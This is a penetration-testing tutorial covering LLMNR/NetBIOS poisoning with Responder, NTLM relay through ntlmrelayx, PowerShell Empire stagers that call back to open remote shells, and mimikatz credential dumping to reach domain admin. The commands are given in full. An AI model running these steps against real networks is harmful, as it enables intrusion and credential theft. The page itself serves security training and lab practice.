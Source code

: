 ### Responder with NTLM relay attack

byt3bl33d3r has written some good guides on this attack. See [b3t3bl33d3r's guide](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)

NetNTLMv2 is microsoft's challenge and response protocol. When authenticating to a server the user's hash followed by the server's challenge is used. With relaying hashes you simply take the NetNTLMv2 hash you collected and relay it to a set of hosts and hopefully the user\(s\) have administrator access. Then you execute a payload and woop de doo you have an admin shell.

In a windows AD environment 9 times out of 10 all the workstations share the same local administrator password. You might be really lucky and both hosts  and servers share the same local administrator password as well. At that point it becomes a discovery mission for where the domain admins are logged in.

Before we can do that we must generate a list of hosts in the domain suspectible to our attack. That is indicated by SMB-signing being disabled, which is default in most Windows OSs, except the Server.

Execute this from the CrackMapExec package:

```
cme smb <CIDR> --gen-relay-list targets.txt
```

Where the CIDR is your domain subnet. This generates a list of hosts which have SMB-signing disabled. The Server versions of Windows have SMB-signing enabled so you can't relay to that one. Also important is the fact that you can't relay to the host the request orginated from.

#### Responder

https://www.sternsecurity.com/blog/local-network-attacks-llmnr-and-nbt-ns-poisoning

Responder does not pick up on FQDN queries, but it does pick up on NetBIOS and LLMNR, because Windows boxes are very chatty. When Windows boxes try to authenticate to things like file shares they default to NetBIOS for queries. This occurs with the use of NetNTLMv2 hashes.

Responder captures these NetNTLMv2 hashes. You can not pass the hash with these but you can crack them or you can relay them to other machines. This part will only explain how to run Responder and capture hashes.

**Start Responder**
```
Responder -I eth0 -wrf
```

Where -I is for interface and eth0 is your interface. The -wrf is optional, but -f is useful as it fingerprints the OS version. The other options are explained with -h.

To try this out in your lab, open explorer on a Windows machine and type `\\share\` in the address bar and wait for the credential prompt. This will trigger a name resolution request over SMB to find a resource using the current account's credentials. That should allow Responder to capture the NetNTLMv2 hash of the user making the request and print them in your terminal.

You can now crack the hashes using your favorite tool, but another alternative is relaying those hashes.

Now so far, Responder had set up an HTTP and SMB server to act as a middleman between the one requesting a resource and the file share. We now want to give our captured hashes to the tool NTLMrelay, so we edit `Responder.conf` to turn off the HTTP and SMB server.

After that is done, run Responder like before:

```
Responder -I eth0 -wrf
```

#### Empire

Now getting into Empire shouldn't be too hard if you are familiar with tools such as Metasploit. A short guide can be found [here](https://www.sw1tch.net/2015/08/11/powershellempire-5-minute-quick-start-guide-featuring-kali-linux-andor-debian-8-0/).

Start up Empire, open a listener and create a so called stager, point it to your listener. The generated output is your payload. Note that this kind of output is normally picked up by antivirus in real environment.

```
./empire
uselistener http
set Port 81
execute
back
usestager multi/launcher
set Listener http
generate
agents
```

#### NTLMrelay

Now perform the actual relaying using ntlmrelay from the Impacket library.

```
ntlmrelayx.py -tf targets.txt -c <insert your Empire Powershell launcher here>
```

Now copypaste the payload from Empire into the NTLMrelay command above. This will execute the payload for every box it relays to and it should be raining shells very soon. You will see a message in Empire saying it got an agent when it's successful. You will also see hashes written in the terminal while it's running.

#### Back to Empire

Now in my lab environment I have had some trouble where agents are not always spawned or hashes are not captured. Here's what you can try:

* Trigger a few requests from the Windows machines using the `\\share\` trick.
* Restart all the tools.
* Reset Empire's database.
* Reboot the Windows machines.
* Execute the payload from cmd inside a Windows computer to check if it's actually working. \(You should get an agent instantly\).

Ok, so you have an agent now. Sometimes the interaction with agents in Empire  agent can be painstakingly slow, so have some patience when running commands. Try whoami, sysinfo and other basic commands. Sometimes, the agents timeout and you'll have to spawn new ones. Kill and/or remove old ones using `kill` and `remove`.

Once you have administrator access to a box you can run mimikatz, which is bundled with Empire. If you're lucky you'll get DA credentials in plaintext, because as previously explained Windows stores those in memory. If you have a local administrator hash on the hosts you can use CrackMapExec to do a mass mimikatz. Basically what it does is a pass the hash on multiple hosts, runs the mimikatz sekurlsa::loggonpasswords and returns output. Hopefully one of them is a DA and game over. Now this might be a bit confusing so lkys37en explained this the following way:

> Say you're an IT administrator. You're logged into your workstation and your account has domain admin rights. I come along and pop a admin shell on another workstation. I grab the hash and do a pass the hash with the local administrator account to your box and then run mimikatz. If you're running Windows 7 and 8 I'll get the NTLM hash and plaintext credentials. If you're running Windows 8.1 and above I only get the NTLM hash.

What this means is that you gain the local admin hash, and pass it to the DC which proves you are admin on DA, which allows you to do mimikatz and extract DA credentials. You're hoping the IT administrators used the same local administrator account on all workstations.

To check if the user is part of the Domain Admins group, run `net user "Domain Admins" /domain`

Now if you're so lucky that you're a DA you can start looking into lateral movement modules in Empire to get into the DC and have some fun.


**Useful links**
https://blog.stealthbits.com/lateral-movement-with-crackmapexec/